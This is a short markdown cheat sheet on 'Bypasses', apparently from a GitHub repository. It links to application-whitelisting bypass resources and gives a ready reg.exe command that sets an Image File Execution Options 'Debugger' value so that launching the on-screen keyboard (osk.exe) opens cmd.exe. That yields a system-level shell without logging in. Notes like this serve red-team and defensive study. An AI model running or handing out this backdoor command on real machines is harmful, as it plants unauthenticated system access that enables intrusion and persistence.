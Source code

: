 #Bypasses

## Application Whitelisting


[Application Whitelist Auditor - Airlock Digital](https://www.airlockdigital.com/application-whitelisting-auditor/)

[AllTheThings - SubTee](https://github.com/subTee/AllTheThings)

[Bypass Techniques - SubTee](https://github.com/subTee/ApplicationWhitelistBypassTechniques)

## Native Utilities

### Reg.exe

Create a registry entry on the host, allowing a system-level shell to be invoked any time that the osk.exe (on screen keyboard) process is called:

    reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f
